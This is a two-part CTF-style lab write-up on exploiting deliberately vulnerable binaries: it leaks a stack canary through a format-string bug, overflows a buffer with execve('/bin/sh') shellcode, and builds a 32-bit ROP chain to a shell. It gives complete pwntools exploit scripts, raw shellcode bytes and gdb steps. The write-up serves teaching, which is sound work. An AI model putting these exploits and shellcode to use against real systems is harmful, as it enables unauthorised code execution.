- [PART 1 (Format String + BO)](#part-1-format-string--bo)
    - [Findnig Canary's Location](#findnig-canarys-location)
    - [Forming Format String](#forming-format-string)
    - [Finding RIP Offset](#finding-rip-offset)
  - [Forming The Shellcode and Writing the Exploit](#forming-the-shellcode-and-writing-the-exploit)
- [PART 2 (ROP)](#part-2-rop)
    - [Finding EIP offset](#finding-eip-offset)
    - [Finding Gadgets & Function Addresses](#finding-gadgets--function-addresses)
    - [Writing & Running The Exploit](#writing--running-the-exploit)


### PART 1 (Format String + BO)

As mentioned in the challenge's description, this program has two vulnerabilites: format string and buffer overflow.

By looking at the source code, we can find these two vulnerabilites in the code as follows:

*Format String:*
```c
void smashme(char *input1)
{
    printf(input1);
    ...
    ...
}

int main(int argc, char *argv[])
{
    ...
    ...
    smashme(argv[1]);
}
```

*argv[1]* is directly passed as an input to *printf*.

*Buffer Overflow:* 
```c
// Global Scope
FILE* fp;
int max_size=200;

void smashme(char *input1)
{
    ...
    char input3[96];
    ...
    ...
    fp = fopen("input.txt", "r");
    ...
    ...
    fgets(input3, max_size, fp);
}
```

*input3* has 96 bytes, but since we have used *fgets* with a *max_size* of 200 characters, up to 200 bytes in *input.txt* is copied into *input3*.

As mentioned in the description, this program has *canary* security mechanism enabled, so we must exploit format string vulnerability to leak the canary and then execute our shellcode by injecting the shellcode and the canary into the stack using the buffer overflow vulnerability. We have to complete the following tasks:

1. Finding canary's location
2. Forming proper format string to leak canary value
3. Finding RIP's offset
4. Forming shellcode and writing this into *input.txt* 

##### Findnig Canary's Location

Canary is pushed into the stack right after pushing RBP (or EBP). We can inspect stack by using *gdb*. So we'll first run the progarm using gdb, and we disassemble *smashme* to see if we can find canary check:
```bash
gdb -q ./canary
(gdb) disas smashme
```



As you can see, at +172 offset canary is loaded into RAX and at line +187 (in case it's changed) *__stack_chk_fail* is called. We can add a breakpoint at +172 and then check the stack to get the exact address of RBP and canary.

```bash
(gdb) br *smashme + 172
(gdb) r aaa 
```
Now, we can run the following commands to examine the stack:
```bash
(gdb) i frame
```


By examining the space around RIP's address we can find canary's location: **0x7fffffff378** & **0x7fffffff37c**:


As you can see, canary is stored at **($rip) - 16** (and `RIP=0x4012c2`).

##### Forming Format String
We must first figure out how much we need to read from the stack to get to canary. Canary is at ```($rip) - 16``` and `RIP=0x4012c2` so it's easier to look for rip. We must use **%p** instead of **%x** because %x only prints 4 bytes but %p prints an address (4 or 8 bytes depending on the architecture).

```bash
./canary $(python3 -c 'print("%p." * 30)')
```


So we need **21 * %p** to reach canary's location and leak its value (also we can see that canary is random and null terminated).

##### Finding RIP Offset
To find RIP offset we can use gdb. We run the program with different input sizes in **input.txt** file, and we examine stack around $rip. For example:



We first exit gdb temporarily by typing ```shell```, then we write 100 *A*s in input.txt. Now we can get back to gdb by running ```exit```.

We can now run the program and inspect the stack after hitting the breakpoint we added earlier:



RIP is at **0x7fffffffe3c8** while input file's last bytes are stored at **0x7fffffffe3b0** (we can also see the appended 0xa or \n). We need another 4 bytes to reach canary's location. After writing 8 bytes of canary at this location, we'll need another 8 bytes to reach rip's location. So we'll need the following pattern:
```
104B of [SHELLCODE/NOP] + 8B of [CANARY_VALUE] + 8B of junk + 8B of new RIP
```

#### Forming The Shellcode and Writing the Exploit
Now we have the structure for our payload. But we still need a shellcode. We can generate our own shellcode or we can look for a shellcode that works for our target. I've used [this](http://shell-storm.org/shellcode/files/shellcode-603.php) shellcode, it's 30 bytes long and will left us with 74 bytes of nop sled. We also need to replace RIP with an address somewhere in the middle of our nop sled. We can find this address by inspecting the stack after injecting the payload just like the way we found RIP offset. We can try `0x7fffffffe558` for example.

We can write our code using pwntools:
```python
from pwn import *
junk = b'junkjunk'
rip = b'\x58\xe5\xff\xff\xff\x7f\x00\x00'
shellcode = b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'

nop_sled = b'\x90' * (104 - len(shellcode))

proc = process(['./canary','.%p'*21])

canary = proc.recvline().decode('utf-8').split('.')[-1].strip('\n')
print(canary)
canary = p64(int(canary,16))

payload  = nop_sled
payload += shellcode
payload += canary
payload += junk
payload += rip

print(payload)

with open("input.txt", "wb") as f:
    f.write(payload)

proc.interactive()
```

We first run the program using *"%p"\*21* as input, we read and convert the leaked canary value and then we prepare our payload and write it inside our input.txt file, then we enter interactive mode:



### PART 2 (ROP)
Target binary has *NX* enabled and has 3 uncalled functions:
```c
void correct_answer(int name1)
{
    if (name1 == 0xdabbadaa)
    {
        strcpy(bin_sh, "/bin");
        printf("Noooo!\n");
    }
}
```
```c
void wrong_answer(int name1, int name2, int name3)
{
    if (name1 == 0xfacebaad || name2 == 0xfacefeed || name3 == 0xfacedead)
    {
        strcpy(bin_sh+4, "//sh");
        printf("Do you mean facebook? Yeees!\n");
    }
    else if(name1==0xD0D0CACA || name2==0xB105F00D)
    {
        strcpy(bin_sh, "/LOL");
        printf("Do you Mark Zuckerberg?!\n");
    }
}
```
and
```c
void Access_Shell()
{
    execve(bin_sh,0,0);
}
```
Our goal is to call ```Access_Shell()``` in order to execute ```execve(bin_sh,0,0)``` and receive a shell. However, ```bin_sh``` is not set to ```/bin/sh``` unless we call ```correct_answer``` and ```wrong_answer``` with appropriate arguments before calling ```Access_Shell```. 

Buffer overflow happens at line 49:
```c
    void read_file(char* name)
    {
        char input[100];
        fp = fopen ("input.txt", "r");
        ...
        ...
49:     fscanf(fp, "%s", input);
    }
```
**input.txt** is read and copied into **input** which has a size of 100 bytes.

We can overflow **input** by putting more bytes in **input.txt**. We have to overflow input to reach **EIP**. We can do this by writing junk bytes (padding) until we get to **EIP**. This padding is followed by our rop chain:

```
Padding + &correct_answer + &[pop ret] + 0xdabbadaa + 
&wrong_answer + &[pop pop ret] + 0xfacebaad + 0xfacefeed +
0xfacedead + &Acess_Shell
```

So we should first find the size of the padding. Then we have to find addresses of the three mentioned functioned and gadgets for popping off their arguments from stack before calling the next function.

##### Finding EIP offset
We can follow a similar process to [finding rip offset](#finding-rip-offset):
```bash
cd part2
python3 -c 'print("A"*130)' | sudo tee input.txt
gdb ROP
```
We can add a breakpoint just before exiting ```read_file``` and inspect the stack around **EIP**:
```bash
(gdb) br *read_file + 170
(gdb) r aaa
(gdb) i frame
(gdb) x/30x 0xffffd50c - 32
```
The result:



As you can see, 130 bytes is more than what we need. We only need 130 - 18 = 112 bytes for padding.

##### Finding Gadgets & Function Addresses
Finding address of the functions is easy. We can use gdb, add a breakpoint, and then using ```p &function``` command while the program is running:



For gadgets, we need gadgets in the form of ```pop ret```. We can find these gadgets using gdb-peda or pwntools libraries.

So we can install peda, add a breakpoint, and then run the following command:
```
gdb-peda$ ropgadget
```



##### Writing & Running The Exploit
Now we can write our [exploit](./exploit2.py):
```python
from pwn import *

padding  = b"A"*112
cor_addr = 0x8049256
wro_addr = 0x804929e
acc_addr = 0x8049333
pop_ret  = 0x8049022
pop3_ret = 0x80494f1

payload  = padding
payload += p32(cor_addr)   # correct_answer
payload += p32(pop_ret)
payload += p32(0xdabbadaa) # correct_answer arg
payload += p32(wro_addr)   # wrong_answer
payload += p32(pop3_ret)
payload += p32(0xfacebaad) # wrong_answer arg1
payload += p32(0xfacefeed) # wrong_answer arg2
payload += p32(0xfacedead) # wrong_answer arg3
payload += p32(acc_addr)   # Access_Shell

with open('input.txt', 'wb') as f:
    f.write(payload)

proc = process(['./ROP','aaa'])
proc.interactive()
```
And we can run it:
```bash
sudo python3 exploit2.py
```




